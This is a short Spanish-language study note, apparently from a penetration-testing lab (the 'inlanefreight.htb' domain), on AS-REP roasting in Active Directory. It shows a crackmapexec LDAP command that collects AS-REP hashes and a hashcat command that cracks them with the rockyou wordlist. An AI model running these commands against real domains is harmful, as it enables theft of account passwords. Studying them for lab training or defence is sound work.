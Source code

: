 ### Para enumerar ASProast users debemos usar LDAP

Debemos agregar al DC a nuestro archivo hosts con el nombre completo, de otra manera nos dará un error:

    dc.domain.local

Luego podemos enumerar

    crackmapexec ldap dc01.inlanefreight.htb -u users.txt -p '' --asreproast asreproast.out

### Crackeamos

    hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt
